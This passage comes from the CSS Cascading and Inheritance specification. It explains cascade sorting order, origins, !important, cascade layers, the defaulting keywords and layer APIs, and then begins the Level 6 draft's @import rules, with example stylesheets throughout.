The **cascade** takes an unordered list of declared values for a given property on a given element, sorts them by their declaration’s precedence as determined below, and outputs a single cascaded value.

#### 6.1.  Cascade Sorting Order {#css-cascade-5:cascade-sort}

The cascade sorts declarations according to the following criteria, in descending order of precedence:

**Origin and Importance**

: The origin of a declaration is based on where it comes from and its importance is whether or not it is declared with `!important` (see [below](#css-cascade-5:importance)). The precedence of the various origins is, in descending order:

  1. Transition declarations [css-transitions-1]
  2. Important user agent declarations
  3. Important user declarations
  4. Important author declarations
  5. Animation declarations [css-animations-1]
  6. Normal author declarations
  7. Normal user declarations
  8. Normal user agent declarations

  Declarations from origins earlier in this list win over declarations from later origins.

**Context**

: A document language can provide for blending declarations sourced from different **encapsulation contexts**, such as the nested tree contexts of shadow trees in the [DOM].

  When comparing two declarations that are sourced from different encapsulation contexts, then for normal rules the declaration from the outer context wins, and for important rules the declaration from the inner context wins. For this purpose, [DOM] tree contexts are considered to be nested in shadow-including tree order.

  > **Note:** This effectively means that normal declarations belonging to an encapsulation context can set defaults that are easily overridden by the outer context, while important declarations belonging to an encapsulation context can enforce requirements that cannot be overridden by the outer context.

**Element-Attached Styles**

: Separately for normal and important declarations, declarations that are attached directly to an element (such as the [contents of a style attribute](#css-style-attr-1:interpret)) rather than indirectly mapped by means of a style rule selector take precedence over declarations the same importance that are mapped via style rule.

  See [CSSSTYLEATTR].

  > **Note:** Non-CSS presentational hints (such as presentational markup) are handled separately, see [§ 6.5 Precedence of Non-CSS Presentational Hints](#css-cascade-5:preshint).

**Layers**

: Declarations within each origin and context can be explicitly assigned to a cascade layer. For the purpose of this step, any declaration not assigned to an explicit layer is added to an implicit final layer.

  Cascade layers (like declarations) are sorted by order of appearance, see [§ 6.4.3 Layer Ordering](#css-cascade-5:layer-ordering). When comparing declarations that belong to different layers, then for normal rules the declaration whose cascade layer is latest in the layer order wins, and for important rules the declaration whose cascade layer is earliest wins.

  > **Note:** This follows the same logic used for precedence of normal and important origins, thus the `!important` flag maintains the same “override” purpose in both settings.

**Specificity**

: The [Selectors module](#selectors-4:specificity) [SELECT] describes how to compute the specificity of a selector. Each declaration has the same specificity as the style rule it appears in. The declaration with the highest specificity wins.

**Order of Appearance**

: The last declaration in document order wins. For this purpose:

  - Style sheets are ordered in final CSS style sheets order.
  - Declarations from `imported style sheets` are ordered as if their style sheets were substituted in place of the `@import` rule.
  - Declarations from style sheets independently linked by the originating document are treated as if they were concatenated in linking order, as determined by the host document language.
  - Declarations from style attributes are ordered according to the document order of the element the style attribute appears on, and are all placed after any style sheets. [CSSSTYLEATTR]

The **output of the cascade** is a (potentially empty) sorted list of declared values for each property on each element.

#### 6.2.  Cascading Origins {#css-cascade-5:cascading-origins}

Each style rule has a **cascade origin**, which determines where it enters the cascade. CSS defines three core origins:

****Author Origin****

: The author specifies style sheets for a source document according to the conventions of the document language. For instance, in HTML, style sheets may be included in the document or linked externally.

****User Origin****

: The user may be able to specify style information for a particular document. For example, the user may specify a file that contains a style sheet or the user agent may provide an interface that generates a user style sheet (or behaves as if it did).

****User-Agent Origin****

: Conforming user agents must apply a default style sheet (or behave as if they did). A user agent’s default style sheet should present the elements of the document language in ways that satisfy general presentation expectations for the document language (e.g., for visual browsers, the EM element in HTML is presented using an italic font). See e.g. the [HTML user agent style sheet](https://html.spec.whatwg.org/multipage/rendering.html#the-css-user-agent-style-sheet-and-presentational-hints). [HTML]

Extensions to CSS define the following additional origins:

****Animation Origin****

: CSS Animations [css-animations-1] generate “virtual” rules representing their effects when running.

****Transition Origin****

: Like CSS Animations, CSS Transitions [css-transitions-1] generate “virtual” rules representing their effects when running.

#### 6.3.  Important Declarations: the `!important` annotation {#css-cascade-5:importance}

CSS attempts to create a balance of power between author and user style sheets. By default, rules in an author’s style sheet override those in a user’s style sheet, which override those in the user-agent’s default style sheet. To balance this, a declaration can be marked important, which increases its weight in the cascade and inverts the order of precedence.

A declaration is **important** if it has a `!important` annotation as defined by [css-syntax-3], i.e. if the last two (non-whitespace, non-comment) tokens in its value are the delimiter token `!` followed by the identifier token `important`. All other declarations are **normal** (non-important).

> **Example:** ```css
> [hidden] { display: none !important; }
> ```

An important declaration takes precedence over a normal declaration. Author and user style sheets may contain important declarations, with user-origin important declarations overriding author-origin important declarations. This CSS feature improves accessibility of documents by giving users with special requirements (large fonts, color combinations, etc.) control over presentation.

Important declarations from all origins take precedence over animations. This allows authors to override animated values in important cases. (Animated values normally override all other rules.) [css-animations-1]

User-agent style sheets may also contain important declarations. These override all author and user declarations.

> **Example:** The first rule in the user’s style sheet in the following example contains an `!important` declaration, which overrides the corresponding declaration in the author’s style sheet. The declaration in the second rule will also win due to being marked `!important`. However, the third declaration in the user’s style sheet is not `!important` and will therefore lose to the second rule in the author’s style sheet (which happens to set style on a shorthand property). Also, the third author rule will lose to the second author rule since the second declaration is `!important`. This shows that `!important` declarations have a function also within author style sheets.
>
> ```css
> /* From the user's style sheet */
> p { text-indent: 1em !important }
> p { font-style: italic !important }
> p { font-size: 18pt }
>
> /* From the author's style sheet */
> p { text-indent: 1.5em !important }
> p { font: normal 12pt sans-serif !important }
> p { font-size: 24pt }
> ```
>
> | Property | Winning value |
> | --- | --- |
> | `text-indent` | `1em` |
> | `font-style` | `italic` |
> | `font-size` | `12pt` |
> | `font-family` | `sans-serif` |

#### 6.4.  Cascade Layers {#css-cascade-5:layering}

In the same way that cascade origins provide a balance of power between user and author styles, **cascade layers** provide a structured way to organize and balance concerns within a single origin. Rules within a single cascade layer cascade together, without interleaving with style rules outside the layer.

Authors can create layers to represent element defaults, third-party libraries, themes, components, overrides, and other styling concerns—​and are able to re-order the cascade of layers in an explicit way, without altering selectors or specificity within each layer, or relying on order of appearance to resolve conflicts across layers.

> **Example:** For example, the following generates an explicit `reset` layer, with lower cascade precedence than any unlayered styles:
>
> ```css
> audio {
>   /* specificity of 0,0,1 - implicit (final) layer */
>   display: flex;
> }
>
> @layer reset {
>   audio[controls] {
>     /* specificity of 0,1,1 - explicit "reset" layer */
>     display: block;
>   }
> }
> ```
>
> The unlayered declarations on the `audio` element take precedence over the explicitly layered declarations on `audio[controls]`—​even though the unlayered styles have a lower specificity, and come first in the order of appearance.

At-rules (such as `@keyframes`, `@font-face`, `@page`, etc.) that are defined inside cascade layers also use the layer order when resolving collisions or cascading.

> **Example:** For example, authors could override the animation from a framework, by providing keyframes with the same name in a higher-precedence layer:
>
> ```css
> /* establish the layer order, so the "override" layer takes precedence */
> @layer framework, override;
>
> @layer override {
>   @keyframes slide-left {
>     from { translate: 0; }
>     to { translate: -100% 0; }
>   }
> }
>
> @layer framework {
>   @keyframes slide-left {
>     from { margin-left: 0; }
>     to { margin-left: -100%; }
>   }
> }
>
> .sidebar { animation: slide-left 300ms; }
> ```
>
> In this case the `override` layer has a higher cascade precedence than the `framework` layer, so `slide-left` will animate using the `translate` property rather than `margin-left`.

##### 6.4.1.  Declaring Cascade Layers {#css-cascade-5:layer-declaration}

Cascade layers can be declared:

- using an `@import` rule with the `layer` keyword or `layer()` function, assigning the contents of the imported file into that layer.
- using a [@layer block at-rule](#css-cascade-5:layer-block), assigning its child style rules into that layer.
- using a [@layer statement at-rule](#css-cascade-5:layer-empty), declaring a named layer without assigning any rules.

> **Issue:** Provide an attribute for assigning link or style elements to cascade layers? [[w3c/csswg-drafts Issue #5853]](https://github.com/w3c/csswg-drafts/issues/5853)

##### 6.4.2.  Layer Naming and Nesting {#css-cascade-5:layer-names}

A cascade layer has a **layer name**, which is an ordered list representing each level of layer nesting, each segment of which can be named (as a CSS identifier) or anonymous. (Thus, when a layer is nested inside of another layer, this concatenates their names.) One layer is nested in another when it is declared within the scope of another layer, e.g. an `@layer` rule inside another `@layer`, a layered `@import` inside a layered import, or an `@layer` rule inside a layered import.

Layer names represent the same cascade layer if they contain the same segments in the same order; however anonymous segments have unique identities for each occurrence. Note that nesting can cause multiple layers to share the same anonymous segment.

> **Example:** Explicit layer identifiers provide a way to assign multiple style blocks to a single layer. In the following example, the contents of `headings.css` and `links.css` are cascaded within the same layer as the `audio[controls]` rule:
>
> ```css
> @import url(headings.css) layer(default);
> @import url(links.css) layer(default);
>
> @layer default {
>   audio[controls] {
>     display: block;
>   }
> }
> ```

> **Example:** In this example, the nested `framework.base` layer is distinct from the top-level `base` layer:
>
> ```css
> @layer base {
>   p { max-width: 70ch; }
> }
>
> @layer framework {
>   @layer base {
>     p { margin-block: 0.75em; }
>   }
>
>   @layer theme {
>     p { color: #222; }
>   }
> }
> ```
>
> The resulting layers can be represented as a tree:
>
> 1. `base`
> 2. `framework`
>
>   1. `base`
>   2. `theme`
>
> or as a flat list with nested identifiers:
>
> 1. `base`
> 2. `framework.base`
> 3. `framework.theme`

Syntactically, an explicit layer name is represented by the `<layer-name>` in `@layer` and `@import` rules, which is a period-separated list of `<ident>` tokens with no intervening white space:

```css
<layer-name> = <ident> [ '.' <ident> ]*
```

The CSS-wide keywords are reserved for future use, and cause the rule to be invalid at parse time if used as an `<ident>` in the `<layer-name>`. When multiple identifiers are concatenated with a period, this is a shorthand representing those layers nested in order.

> **Example:** ```css
> @layer framework {
>   @layer default {
>      p { margin-block: 0.75em; }
>   }
>
>   @layer theme {
>     p { color: #222; }
>   }
> }
>
> @layer framework.theme {
>   /* These styles will be added to the theme layer inside the framework layer */
>   blockquote { color: rebeccapurple; }
> }
> ```

> **Note:** A nested layer cannot “escape” its parent layer to reference layers outside itself.

###### 6.4.2.1.  Anonymous Layers {#css-cascade-5:unnamed-layers}

When a `@layer` rule omits its `<layer-name>`, or an `@import` rule uses the `layer` keyword (which does not provide a <layer-name>), its layer name gains a unique anonymous segment; it therefore cannot be referenced from the outside.

> **Example:** Each occurrence of an anonymous layer declaration represents a unique cascade layer, thus:
>
> - Multiple unnamed layer rules place their styles into separate layers, as each occurrence is referencing a distinct anonymous layer name.
>
>   ```css
>   @layer { /* layer 1 */ }
>   @layer { /* layer 2 */ }
>   ```
> - Within a single unnamed layer, child layers with the same name refer to the same cascade layer, because they share the same anonymous parent layer.
>
>   ```css
>   @layer {
>   @layer foo { /* layer 1 */ }
>   @layer foo { /* also layer 1 */ }
>   }
>   ```
> - Whereas in separate unnamed layers, child layers with the same name refer to different cascade layers, because they have distinct anonymous parent layers.
>
>   ```css
>   @layer {
>   @layer foo { /* layer 1 */ }
>   }
>   @layer {
>   @layer foo { /* layer 2 */ }
>   }
>   ```

> **Example:** A layer declared without a `<layer-name>` does not provide any external hook for re-arranging or adding styles.
>
> While this can be a mere convenience for brevity, it can also be used by teams as a way to force an organizing convention (all code in that layer must be defined in the same place), or by libraries wanting to merge & hide a set of internal “private” layers that they don’t want exposed to author manipulation:
>
> ```css
> /* bootstrap-base.css */
> /* unnamed wrapper layers around each sub-file */
> @import url(base-forms.css) layer;
> @import url(base-links.css) layer;
> @import url(base-headings.css) layer;
> ```
>
> ```css
> /* bootstrap.css */
> /* the internal names are hidden from access, subsumed in "base" */
> @import url(bootstrap-base.css) layer(base);
> ```
>
> ```css
> /* author.css */
> /* author has access to bootstrap.base layer, but not into unnamed layers */
> @import url(bootstrap.css) layer(bootstrap);
>
> /* Adds additional styles to the bootstrap layer: */
> @layer bootstrap {...}
> ```

##### 6.4.3.  Layer Ordering {#css-cascade-5:layer-ordering}

Cascade layers are sorted by the order in which they first are declared, with nested layers grouped within their parent layer. Unlayered rules are sorted later than any layered rules within the same parent layer (if any).

> **Example:** Given the following layer rules:
>
> ```css
> /* unlayered styles come last in the layer order */
> h1 { color: darkslateblue; }
>
> @layer reset.type {
>   strong { font-weight: bold; }
> }
>
> @layer framework {
>   .title { font-weight: 100; }
>
>   @layer theme {
>     h1, h2 { color: maroon; }
>   }
> }
>
> @layer reset {
>   [hidden] { display: none; }
> }
> ```
>
> The outer layers are sorted first, with any unlayered style rules added to an implicit outer layer which has higher precedence than (comes after) the explicit layers:
>
> 1. `reset`
> 2. `framework`
> 3. (implicit outer layer)
>
> Within each layer, nested layers are sorted in appearance order, and style rules without further nesting are similarly added to an implicit sub-layer after the explicitly nested layers:
>
> 1. `reset.type`
> 2. `reset` (implicit sub-layer)
> 3. `framework.theme`
> 4. `framework` (implicit sub-layer)
> 5. (implicit outer layer)

Layers that are defined inside of a conditional group rule do not contribute to the layer order unless the condition is true or unless the conditional group rule can evaluate differently for different elements in the document.

> **Note:** Since the layer order is global to the document, any layers defined inside an element-sensitive conditional group rule need to be accommodated when establishing the global layer order, regardless of the rule’s condition. Conditions that are global to the document, however (such as `@media` and `@supports`) can accommodate such `@layer` rules conditionally.

> **Example:** For example, the following layer order will depend on which media conditions match:
>
> ```css
> @media (min-width: 30em) {
>   @layer layout {
>     .title { font-size: x-large; }
>   }
> }
>
> @media (prefers-color-scheme: dark) {
>   @layer theme {
>     .title { color: white; }
>   }
> }
>
> @layer theme, layout;
> ```
>
> If the first media-query matches based on viewport dimensions, then the `layout` layer will come first in the layer order. If the color-scheme preference query matches, or if neither condition is true, then `theme` will come first in the layer order.
>
> Authors who want to avoid this behavior can establish an explicit ordering of layers in advance, and avoid defining new layers inside conditional rules.

> **Note:** Cascade layers are scoped to their origin and context, so the ordering of layers in the light DOM has no impact on the order of identically-named layers in the shadow DOM (and vice versa).

> **Issue:** Allow authors to explicitly place unlayered styles in the layer order [[Issue #6323]](https://github.com/w3c/csswg-drafts/issues/6323)

##### 6.4.4.  Declaring Layers Inline: the `@layer` rule {#css-cascade-5:at-layer}

The **@layer** rule declares a cascade layer, with the option to assign style rules.

###### 6.4.4.1.  Assigning Styles Inline: the `@layer` block at-rule {#css-cascade-5:layer-block}

The `@layer` block at-rule assigns its child style rules to a particular named cascade layer. This block layer-assignment syntax is:

```css
@layer <layer-name>? {
  <rule-list>
}
```

Such `@layer` block rules have the same restrictions and processing as a conditional group rule [CSS-CONDITIONAL-3] with a true condition.

> **Example:** For example, `@layer` and `@media` can be mixed:
>
> ```css
> @layer framework {
>   h1, h2 { color: maroon; background: white;}
>
>   @media (prefers-color-scheme: dark) {
>     h1, h2 { color: red; background: black; }
>   }
> }
> ```

> **Note:** `@layer` block at-rules cannot be interleaved with `@import` rules.

###### 6.4.4.2.  Declaring Without Styles: the `@layer` statement at-rule {#css-cascade-5:layer-empty}

The `@layer` rule can also be used to define new layers without assigning any style rules, by providing only the layer name:

```css
@layer <layer-name>#;
```

Such empty `@layer` rules are allowed before `@import` and `@namespace` rules (after the `@charset` rule, if any) as well as everywhere `@layer` block at-rules are allowed.

> **Note:** No `@layer` rules are allowed between `@import` and `@namespace` rules. Any `@layer` rule that comes after an `@import` or `@namespace` rule will cause any subsequent `@import` or `@namespace` rules to be ignored.

Unlike the [block syntax](#css-cascade-5:layer-block), multiple comma-separated layer names can be provided in this syntax, declaring each of the layers in the order specified.

> **Note:** Since layer ordering is defined by first occurrence of the layer name (see [§ 6.4.3 Layer Ordering](#css-cascade-5:layer-ordering)), this rule allows a page to declare the order of its layers up front, so that their order is apparent without having to read the entire style sheet. It also allows inline layers to be interleaved with imported layers, which is not possible with the [block syntax](#css-cascade-5:layer-block).

> **Example:** The statement syntax allows establishing a layer order in advance, regardless of the order in which style rules are added to each layer. It can be helpful to establish that layer order in advance, before any `@import` rules. In this example, the imported `theme.css` style rules will override any rules added in the later `default` block since the order of layers has already been established:
>
> ```css
> @layer default, theme, components;
> @import url(theme.css) layer(theme);
>
> @layer default {
>   audio[controls] {
>     display: block;
>   }
> }
> ```
>
> It’s also possible to have `@import` rules help establish the order, by placing them between `@layer` rules. This example will have the same result:
>
> ```css
> @layer default;
> @import url(theme.css) layer(theme);
> @layer components;
>
> @layer default {
>   audio[controls] {
>     display: block;
>   }
> }
> ```
>
> However, `@import` and `@namespace` rules must be consecutive, without any intervening rules. The following is invalid:
>
> ```css
> @import url(default.css) layer(default);
> @layer theme;
> @import url(components.css) layer(components);
>
> @layer theme {
>   audio[controls] {
>     display: block;
>   }
> }
> ```

#### 6.5.  Precedence of Non-CSS Presentational Hints {#css-cascade-5:preshint}

The UA may choose to honor presentational hints in a source document’s markup, for example the `bgcolor` attribute or `s` element in [HTML]. All document language-based styling must be translated to corresponding CSS rules and enter the cascade as rules in either the UA-origin or a special-purpose **author presentational hint origin** between the regular user origin and the author origin. For the purpose of cascading this author presentational hint origin is treated as an independent origin; however for the purpose of the `revert` keyword (but not for the `revert-layer` keyword) it is considered part of the author origin.

A document language may define whether such a presentational hint enters the cascade as UA-origin or author-origin; if so, the UA must behave accordingly. For example, [SVG11] maps its presentation attributes into the author origin.

> **Note:** Presentational hints entering the cascade as UA-origin rules can be overridden by author-origin or user-origin styles. Presentational hints entering the cascade as author presentational hint origin rules can be overridden by author-origin styles, but not by non-important user-origin styles. Host languages should choose the appropriate origin for presentational hints with these considerations in mind.

### 7.  Defaulting {#css-cascade-5:defaulting}

When the cascade does not result in a value, the specified value must be found some other way. Inherited properties draw their defaults from their parent element through inheritance; all other properties take their initial value. Authors can explicitly request inheritance or initialization via the `inherit` and `initial` keywords.

#### 7.1.  Initial Values {#css-cascade-5:initial-values}

Each property has an **initial value**, defined in the property’s definition table. If the property is not an inherited property, and the cascade does not result in a value, then the specified value of the property is its initial value.

#### 7.2.  Inheritance {#css-cascade-5:inheriting}

**Inheritance** propagates property values from parent elements to their children. The **inherited value** of a property on an element is the computed value of the property on the element’s parent element. For the root element, which has no parent element, the inherited value is the initial value of the property.

For a [DOM] tree with shadows, inheritance operates on the flattened element tree. This means that slotted elements inherit from the `slot` they’re assigned to, rather than directly from their light tree parent. Pseudo-elements inherit according to the fictional tag sequence described for each pseudo-element. [CSS-PSEUDO-4]

Some properties are **inherited properties**, as defined in their property definition table. This means that, unless the cascade results in a value, the value will be determined by inheritance.

A property can also be explicitly inherited. See the `inherit` keyword.

> **Note:** Inheritance follows the document tree and is not intercepted by [anonymous boxes](#css2:box-gen), or otherwise affected by manipulations of the box tree.

#### 7.3.  Explicit Defaulting {#css-cascade-5:defaulting-keywords}

Several CSS-wide property values are defined below; declaring a property to have these values explicitly specifies a particular defaulting behavior. As specified in [CSS Values and Units](#css-values-4:common-keywords) [css-values-3], all CSS properties can accept these values.

The keywords `revert`, `revert-layer`, and `revert-rule` are **cascade-dependent keywords**; some contexts may restrict their use while allowing the other CSS-wide keywords.

##### 7.3.1.  Resetting a Property: the `initial` keyword {#css-cascade-5:initial}

The **initial** CSS-wide keyword represents the value defined as the property’s initial value.

If the cascaded value of a property is the `initial` keyword, the property’s specified value is its initial value.

##### 7.3.2.  Explicit Inheritance: the `inherit` keyword {#css-cascade-5:inherit}

The **inherit** CSS-wide keyword represents the property’s computed value on the parent element.

If the cascaded value of a property is the `inherit` keyword, the property’s specified and computed values are the inherited value.

##### 7.3.3.  Erasing All Declarations: the `unset` keyword {#css-cascade-5:inherit-initial}

The **unset** CSS-wide keyword acts as either `inherit` or `initial`, depending on whether the property is inherited or not.

If the cascaded value of a property is the `unset` keyword, then if it is an inherited property, this is treated as `inherit`, and if it is not, this is treated as `initial`. This keyword effectively erases all declared values occurring earlier in the cascade, correctly inheriting or not as appropriate for the property (or all longhands of a shorthand).

##### 7.3.4.  Rolling Back Cascade Origins: the `revert` keyword {#css-cascade-5:default}

The **revert** CSS-wide keyword rolls back the cascade to the cascaded value of the earlier origin.

If the cascaded value of a property is the `revert` keyword, the behavior depends on the cascade origin to which the declaration belongs:

**user-agent origin**

: Equivalent to `unset`.

**user origin**

: Rolls back the cascaded value to the user-agent level, so that the specified value is calculated as if no author-origin or user-origin rules were specified for this property on this element.

**author origin**

: Rolls back the cascaded value to the user level, so that the specified value is calculated as if no author-origin rules were specified for this property on this element. For the purpose of `revert`, this origin includes the Animation origin.

> **Note:** Effectively the `revert` keyword is substituted with the value from the earlier cascade origin. Thus, reverting a shorthand property reverts all its longhands; reverting any [property alias](#css-cascade-5:aliasing) of a property reverts all of them; reverting one of the paired properties in a logical property group also reverts the other one; etc.

##### 7.3.5.  Rolling Back Cascade Layers: the `revert-layer` keyword {#css-cascade-5:revert-layer}

The **revert-layer** CSS-wide keyword rolls back the cascade similar to `revert`, except it works by cascade layer rather than by cascade origin.

If the cascaded value of a property is the `revert-layer` keyword, the cascaded value is rolled back to the earlier layer, so that the specified value is calculated as if no rules were specified in the current cascade layer—​or between its normal and important levels in the cascade—​for this property on this element. For `revert-layer` in important [element-attached styles](#css-cascade-5:style-attr), however, it only reverts the [element-attached styles](#css-cascade-5:style-attr) and the intervening animation origin, and not any of the intervening author-origin important rules.

> **Example:** For example, applying `revert-layer` to the `height` in layer `two`, reverts the `height` property to the value defined in layer `one`, yielding a `height` of `100px`.
>
> ```css
> @layer one {
>   div { height: 100px }
> }
>
> @layer two {
>   div { height: 200px }
>   div { height: revert-layer }
> }
> ```
>
> Note that since `height` and `block-size` are paired properties in a logical property group, the following layer `two` declaration would also revert to the `height` defined in layer `one`.
>
> ```css
> @layer two {
>   div { height: 200px }
>   div { block-size: revert-layer }
> }
> ```

> **Note:** If there are no lower-precedence declarations in the same cascade origin as the `revert-layer` value, the cascaded value will roll back to the previous origin.

> **Note:** The animation origin is not collapsed with the author origin for this purpose as it is for `revert`, and thus effectively forms its own cascade layer.

##### 7.3.6.  Rolling Back Rules: the `revert-rule` keyword {#css-cascade-5:revert-rule-keyword}

The **revert-rule** CSS-wide keyword rolls back the cascade similar to `revert` and `revert-layer`, except it works by style rule rather than cascade origin or cascade layer.

If the cascaded value of a property is the `revert-rule` keyword, the cascaded value is rolled back such that the specified value is calculated as if the current style rule had not been present at all.

> **Example:** The `revert-rule` keyword can be combined with `if()` to conditionally ignore a declaration:
>
> ```css
> div {
>   border-radius: 5px;
> }
> .apply-sharp {
>   border-radius: if(style(--mode:sharp): 0px; else: revert-rule);
> }
> ```
>
> Given an element `<div class=apply-sharp>`, the above style sets `border-radius` to `0px` only when the computed value of `--mode` is `sharp`.

The `revert-rule` keyword behaves like `revert-layer` in the animation origin.

### 8. Layer APIs {#css-cascade-5:layer-apis}

#### 8.1.  The `CSSLayerBlockRule` interface {#css-cascade-5:the-csslayerblockrule-interface}

The `CSSLayerBlockRule` interface represents the `@layer` [block rule](#css-cascade-5:layer-block):

```webidl
[Exposed=Window]
interface CSSLayerBlockRule : CSSGroupingRule {
  readonly attribute CSSOMString name;
};
```

Its **`name`** attribute represents the layer name declared by the at-rule itself, and is an empty string if the layer is anonymous.

> **Example:** For example, additional nested context is not added from wrapping layer rules.
>
> ```css
> @layer outer {
>   @layer foo.bar { }
> }
> ```
>
> in this case the `name` of the inner `@layer` rule is “foo.bar” (and not “outer.foo.bar”).

#### 8.2.  The `CSSLayerStatementRule` interface {#css-cascade-5:the-csslayerstatementrule-interface}

The `CSSLayerStatementRule` interface represents the `@layer` [statement](#css-cascade-5:layer-empty):

```webidl
[Exposed=Window]
interface CSSLayerStatementRule : CSSRule {
  readonly attribute FrozenArray<CSSOMString> nameList;
};
```

Its **`nameList`** attribute represents the list of layer names declared by the at-rule, normalized following the same rule as the `CSSLayerBlockRule`’s `name` attribute.

---

## CSS Cascading and Inheritance Module Level 6 {#css-cascade-6}

- **Shortname:** `css-cascade-6`
- **Editor's Draft:** [https://drafts.csswg.org/css-cascade-6/](https://drafts.csswg.org/css-cascade-6/)
- **Published TR:** [https://www.w3.org/TR/css-cascade-6/](https://www.w3.org/TR/css-cascade-6/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-04-28
- **Diff Specification Over:** [CSS Cascading and Inheritance Module Level 5 (`css-cascade-5`)](#css-cascade-5)

### 1.  Introduction and Missing Sections {#css-cascade-6:intro}

> **Issue:** This is a diff spec over [CSS Cascading and Inheritance Level 5](#css-cascade-5). It is currently an Exploratory Working Draft: if you are implementing anything, please use Level 5 as a reference. We will merge the Level 5 text into this draft once it reaches CR.

### 2.  Importing Style Sheets: the `@import` rule {#css-cascade-6:at-import}

The **@import** rule allows users to import style rules from other style sheets. If an `@import` rule refers to a valid stylesheet, user agents must treat the contents of the stylesheet as if they were written in place of the `@import` rule, with two exceptions:

- If a feature (such as the `@namespace` rule) *explicitly* defines that it only applies to a particular stylesheet, and not any imported ones, then it doesn’t apply to the imported stylesheet.
- If a feature relies on the relative ordering of two or more constructs in a stylesheet (such as the requirement that `@namespace` rules must not have any other rules other than `@import` preceding it), it only applies between constructs in the same stylesheet.

> **Example:** For example, declarations in style rules from imported stylesheets interact with the cascade as if they were written literally into the stylesheet at the point of the `@import`.

Any `@import` rules must precede all other valid at-rules and style rules in a style sheet (ignoring `@charset`, `@supports-condition`, and [`@layer` statement](#css-cascade-6:layer-empty) rules) and must not have any other valid at-rules or style rules between it and previous `@import` rules, or else the `@import` rule is invalid. The syntax of `@import` is:

```css
@import [ <url> | <string> ]
        [[ layer | layer( <layer-name> ) ]
         || [ scope | scope( <scope-start> | <scope-boundaries> ) ]
         || <supports-import-condition>]?
        <media-import-condition> ;

<supports-import-condition> = supports( [ <supports-condition> | <declaration> ] )
<media-import-condition> = <media-query-list>
```

where:

- the `<url>` or `<string>` gives the URL of the style sheet to be imported.

and optionally:

- the `layer` keyword or `layer()` function, which assigns the contents of the style sheet into its own anonymous cascade layer or into the named cascade layer.

  The layer is added to the [layer order](#css-cascade-6:layer-ordering) even if the import fails to load the stylesheet, but is subject to any import conditions (just as if declared by an `@layer` rule wrapped in the appropriate conditional group rules).
- the `scope` keyword or `scope()` function, which scopes the style rules within the stylesheet, using the scoping roots and scoping limits as described by [§ 3.5.4 Identifying Scoping Roots and Limits](#css-cascade-6:scope-limits).

  > **Note:** The `scope` keyword behaves like a `@scope` rule with an empty prelude, scoping the imported rules to the parent element of the owner node of the stylesheet containing the `@import` rule.

  > **Note:** While the style rules within the imported stylesheet become scoped, they do not become nested. In particular, top-level selectors are not re-interpreted as relative selectors, and the `&` pseudo-class maintains its non-nested behavior.
- the import conditions, `<supports-import-condition>` and `<media-import-condition>`, which state the conditions under which the `@import` rule applies.

> **Example:** The following [conditional `@import` rule](#css-cascade-6:conditional-import) only loads the style sheet when the UA [supports](#css-conditional-3:support-definition) `display: flex`, and only applies the style sheet on a [handheld](#css2:media-types) device with a [maximum viewport width](#mediaqueries-5:width) of 400px.
>
> ```
> @import url("narrow.css") supports(display: flex) handheld and (max-width: 400px);
> ```

> **Example:** The following layer imports load the style sheets into the `framework.component` layer, and an un-named layer, respectively:
>
> ```
> @import url("tabs.css") layer(framework.component);
> @import url("override.css") layer;
> ```

> **Example:** The following imports a stylesheet, and scopes the style rules to elements matching `.card`.
>
> ```
> @import url("card.css") scope(.card);
> ```

If a `<string>` is provided, it must be interpreted as a `<url>` with the same value.

> **Example:** The following lines are equivalent in meaning and illustrate both `@import` syntaxes (one with `url()` and one with a bare string):
>
> ```css
> @import "mystyle.css";
> @import url("mystyle.css");
> ```

#### 2.1.  Conditional `@import` Rules {#css-cascade-6:conditional-import}

**Import conditions** allow the import to be media– or feature-support–dependent. In the absence of any import conditions, the import is unconditional. (Specifying all for the `<media-query-list>` has the same effect.) If the import conditions do not match, the rules in the imported stylesheet do not apply, exactly as if the imported stylesheet were wrapped in `@media` and/or `@supports` blocks with the given conditions.

> **Example:** The following rules illustrate how `@import` rules can be made media-dependent:
>
> ```css
> @import url("fineprint.css") print;
> @import url("bluish.css") projection, tv;
> @import url("narrow.css") handheld and (max-width: 400px);
> ```

User agents may therefore avoid fetching a conditional import as long as the import conditions do not match. Additionally, if a `<supports-condition>` blocks the application of the imported style sheet, the UA *must not* fetch the style sheet (unless it is loaded through some other link) and *must* return null for the import rule’s CSSImportRule.styleSheet value (even if it is loaded through some other link).

> **Example:** The following rule illustrates how an author can provide fallback rules for legacy user agents without impacting network performance on newer user agents:
>
> ```css
> @import url("fallback-layout.css") supports(not (display: flex));
> @supports (display: flex) {
>   ...
> }
> ```

The import conditions are given by `<media-query-list>`, which is parsed and interpreted as a media query list, and `<supports-condition>`, is parsed and interpreted as a supports query. If a `<declaration>` is given in place of a <supports-condition>, it must be interpreted as a `<supports-decl>` (i.e. the extra set of parentheses is implied) and treated as a <supports-condition>.

> **Example:** For example, the following two lines are equivalent:
>
> ```css
> @import "mystyle.css" supports(display: flex);
> @import "mystyle.css" supports((display: flex));
> ```

The evaluation and full syntax of the import conditions are defined by the [Media Queries](#mediaqueries-5) [MEDIAQ] and [CSS Conditional Rules](#css-conditional-5) [CSS-CONDITIONAL-3] specifications.

#### 2.2.  Processing Stylesheet Imports {#css-cascade-6:import-processing}

When the same style sheet is imported or linked to a document in multiple places, user agents must process (or act as though they do) each link as though the link were to an independent style sheet.

> **Note:** This does not place any requirements on resource fetching, only how the style sheet is reflected in the CSSOM and used in specs such as this one. Assuming appropriate caching, it is perfectly appropriate for a UA to fetch a style sheet only once, even though it’s linked or imported multiple times.

The cascade origin of an imported style sheet is the cascade origin of the style sheet that imported it.

The environment encoding of an imported style sheet is the encoding of the style sheet that imported it. [css-syntax-3]

#### 2.3.  Content-Type of CSS Style Sheets {#css-cascade-6:content-type}

The processing of imported style sheets depends on the actual type of the linked resource:

- If the resource does not have Content-Type metadata, the type is treated as `text/css`.
- If the host document is in quirks mode, and the host document’s origin is same origin with the linked resource response’s URL’s origin, the type is treated as `text/css`.
- Otherwise, the type is determined from its Content-Type metadata.

If the linked resource’s type is `text/css`, it must be interpreted as a CSS style sheet. Otherwise, it must be interpreted as a network error.

### 3.  Cascading {#css-cascade-6:cascading}

The **cascade** takes an unordered list of declared values for a given property on a given element, sorts them by their declaration’s precedence as determined below, and outputs a single cascaded value.

#### 3.1.  Cascade Sorting Order {#css-cascade-6:cascade-sort}

The cascade sorts declarations according to the following criteria, in descending order of precedence:

**Origin and Importance**

: The origin of a declaration is based on where it comes from and its importance is whether or not it is declared with `!important` (see [below](#css-cascade-6:importance)). The precedence of the various origins is, in descending order:

  1. Transition declarations [css-transitions-1]
